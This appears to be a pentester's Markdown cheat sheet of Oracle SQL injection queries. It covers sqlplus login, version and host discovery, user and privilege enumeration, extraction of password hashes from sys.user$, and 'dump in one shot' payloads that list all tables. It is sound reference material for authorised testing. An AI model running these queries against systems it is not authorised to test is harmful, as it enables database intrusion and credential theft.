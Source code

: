 # sqli oracle-sql

## sqlPlus

```
sqlplus USER/PASSWORD@IP/SID [as sysdba]
```

## oracle-sql commands

* [cheatography.com/dormidera/cheat-sheets/oracle-sql-injection/](https://cheatography.com/dormidera/cheat-sheets/oracle-sql-injection/)

**SELECT statements MUST have a FROM clause. Use dummy table `dual`.**

```bash
# comments
--
/* <blah> */

# concat
SELECT 'A'||'B' FROM dual

# hostname
SELECT host_name FROM v$instance
SELECT UTL_INADDR.get_host_name FROM dual

# version
SELECT version FROM v$instance
SELECT banner FROM v$version [WHERE rownum=1]

# users
SELECT user FROM dual
SELECT username FROM all_users
SELECT name FROM sys.user$

# user privs
SELECT * from user_role_privs

# password (DES)
# astatus = if account is locked
SELECT password, astatus FROM sys.user$
SELECT name,spare4 FROM sys.user$

# databases
SELECT global_name FROM global_name
SELECT name FROM v$database
SELECT instance_name FROM v$instance
SELECT SYS.DATABASE_NAME FROM DUAL
| SELECT DISTINCT owner FROM all_tables

# tables
SELECT table_name FROM all_tables
# DIOS: dump in one shot
select rtrim(xmlagg(xmlelement(e, table_name || ',')).extract('//text()').extract('//text()') ,',') from all_tables
| (SELECT replace(wm_concat('<li>'||table_name),',','') FROM all_tables)

# cols
SELECT column_name FROM all_tab_columns WHERE table_name = '<table>'

# 9th row
SELECT username FROM (SELECT ROWNUM r, username FROM all_users ORDER BY username) WHERE r=9
```

